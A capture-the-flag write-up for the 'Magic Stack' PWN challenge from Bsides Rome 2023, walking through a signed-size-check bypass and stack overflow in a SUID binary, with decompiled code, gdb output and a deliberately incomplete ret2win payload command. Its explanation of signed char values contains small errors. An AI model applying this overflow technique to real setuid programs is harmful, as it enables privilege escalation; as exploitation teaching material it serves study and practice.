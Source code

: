 # Challenge: Magic Stack

## Category: PWN

This challenge is part of the '_Bsides Rome 2023_' CTF event hosted by pwnx.io. I blooded for my team: 'ARESTeamITA'.

The challenge let you connet via ssh to a vulnerable machine that has a SUID custom binary. The binary, called 'magic', let you retrieve the flag saved
in another account /home folder as /home/flag.txt.

```bash
ssh user@<CHALLENGE_IP>  # ssh connection
scp user@<CHALLENGE_IP>:/usr/bin/magic ./magic
```

The file was a 64-bit stripped binary as you can see from the output of the ```file``` command:
```
magic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=061c4f61b2214e204f2392bf84a63723dd3973ac, for GNU/Linux 3.2.0, stripped
```

A stripped binary is harder to debug and read but for this challenge gdb and Ghidra are enough.

At this point is important to be precise and note important informations at every step.

+ Step 1: Find the main() function 

For every executable there is an 'entry point' or place where the execution code starts. 
In C/C++ compiled binary the entry point calls main() and prepare the environment using  ```__libc_start_main ```.
This step can be done via Ghidra (find the function) or via gdb that let you know the address 
```
(gdb) info files
	Entry point: 0x401150
```

Now we can read the main function:
```C
undefined8 FUN_0040129b(int param_1,long param_2)

{
  undefined local_26 [10];
  byte local_1c [10];
  byte local_12;
  byte local_11;
  FILE *local_10;
  
  setuid(1000);
  setgid(1000);
  if (param_1 < 2) {
    puts("An argument is required.");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  local_10 = fopen(*(char **)(param_2 + 8),"rb");
  if (local_10 == (FILE *)0x0) {
    puts("[-] Provide a file as input");
                    /* WARNING: Subroutine does not return */
    exit(-1);
  }
  memset(local_1c,0,10);
  fread(local_1c,4,1,local_10);
  local_11 = local_1c[0];
  if ('\n' < (char)local_1c[0]) {
    perror("magic size > MAX_MAGIC_SZ");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  local_12 = local_1c[0];
  memset(local_26,0,10);
  fread(local_26,(ulong)local_12,1,local_10);
  printf("Magic value: %s\n",local_26);
  return 0;
}
```

A beautified version is :

The main function accept as first arg a file path that is opened by ```fopen()``` function. An array of 10 char (renamed 'file_content') read 10 bytes from the FILE stream 
and checks if the first char is lower than '\n' char.

A char is a byte and can be represented as decimal, range from (-127,128), in particular '\n' is 0xa or 10 in decimal.

If the previous check is passed the value of the first char read is passed as 'size' argument of the next ```fread()```. *There is something that the attacker can control!*

+ Step 2: Identify how to read the flag

In the 'magic' binary there is another function that reads and prints the flag file:
```c
void FUN_00401236(void) {
  char local_48 [56];
  FILE *local_10;
  
  memset(local_48,0,0x32);
  local_10 = fopen("/home/pwnx/flag.txt","r");
  fread(local_48,0x27,1,local_10);
  puts(local_48);
  return;
}
```

This function is inside our file, we know its address - 0x401236 - but main() never invoke it. The attacker has to change the execution flow.

Note: the address of a function can be obtained via Ghidra or via gdb by manually exploring the code as the binary is stripped

```
(gdb) x/15i 0x401236
   0x401236:	endbr64 
   0x40123a:	push   rbp
   0x40123b:	mov    rbp,rsp
   0x40123e:	sub    rsp,0x40
   0x401242:	lea    rax,[rbp-0x40]
   0x401246:	mov    edx,0x32
   0x40124b:	mov    esi,0x0
   0x401250:	mov    rdi,rax
   0x401253:	call   0x4010f0 <memset@plt>
   0x401258:	lea    rsi,[rip+0xda5]        # 0x402004
   0x40125f:	lea    rdi,[rip+0xda0]        # 0x402006
   0x401266:	call   0x401110 <fopen@plt>
   0x40126b:	mov    QWORD PTR [rbp-0x8],rax
   0x40126f:	mov    rdx,QWORD PTR [rbp-0x8]
   0x401273:	lea    rax,[rbp-0x40]
(gdb) x/2s 0x402004
0x402004:	"r"
0x402006:	"/home/pwnx/flag.txt"
```

+ Step 3: Exploit

The attacker goal now is to use a big number over the second buffer populated by the second ```fread()```.
The tricky part is not difficult, if the the first char overflow 128 is converted as signed int in a negative number that pass the check against '\n'.

For this reason i used '\xff' char = 255 as the first byte of my payload file.

'\n' char is interpreted as 10 and '\xff' as -127 and the ```if('\n' < file_content[0])``` condition is False and the flow can continue.

Now its possible to read a lot of chars, way more than the buffer and override the Istruction Pointer to call the 'read flag' function.
It's enough to create a long strings with the function address or you can calculate the correct offset.


```bash
# no offset
# complete the exploit by yourself now
python2 -c 'print [NOW_COMPLETE_PAYLOAD] + "6\x12@\x00\x00\x00\x00\x00" * 100' > runme

/usr/bin/magic <PAYLOAD_FILE>

# calculate offset
msf-pattern_create -l 150
msf-pattern_offset -q <VALUE>
```